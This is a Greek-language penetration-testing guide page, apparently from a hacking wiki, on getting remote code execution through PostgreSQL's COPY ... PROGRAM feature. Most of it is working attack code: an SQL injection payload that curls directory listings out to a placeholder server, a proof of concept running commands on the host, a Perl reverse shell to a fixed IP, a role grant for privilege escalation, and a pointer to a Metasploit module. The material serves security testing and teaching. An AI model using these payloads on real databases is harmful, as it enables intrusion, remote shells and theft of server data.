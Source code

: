 
## RCE

### **RCE προς πρόγραμμα**

Από την [έκδοση 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html), μόνο **υπερχρήστες** και μέλη της ομάδας **`pg_execute_server_program`** μπορούν να χρησιμοποιήσουν το copy για RCE (παράδειγμα με εξυπακτήριση:
```sql
'; copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`ls -l|base64`'-- -
```
Παράδειγμα εκτέλεσης:
```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% hint style="warning" %}
Να θυμάστε ότι αν δεν είστε υπερχρήστης αλλά έχετε δικαιώματα **`CREATEROLE`** μπορείτε **να γίνετε μέλος αυτής της ομάδας:**
```sql
GRANT pg_execute_server_program TO username;
```
[**Περισσότερες πληροφορίες.**](pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

Ή χρησιμοποιήστε το `multi/postgres/postgres_copy_from_program_cmd_exec` module από το **metasploit**.\
Περισσότερες πληροφορίες σχετικά με αυτήν την ευπάθεια [**εδώ**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). Ενώ αναφέρεται ως CVE-2019-9193, η Postges δήλωσε ότι αυτό ήταν ένα [χαρακτηριστικό και δεν θα διορθωθεί](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/).

### RCE με Γλώσσες PostgreSQL

{% content-ref url="../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-languages.md" %}
[rce-with-postgresql-languages.md](../pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-languages.md)
{% endcontent-ref %}

### RCE με επεκτάσεις PostgreSQL

Αφού έχετε **μάθει** από την προηγούμενη ανάρτηση **πώς να μεταφορτώσετε δυαδικά αρχεία** μπορείτε να δοκιμάσετε να αποκτήσετε **RCE με τη μεταφόρτωση μιας επέκτασης postgresql και τη φόρτωσή της**.
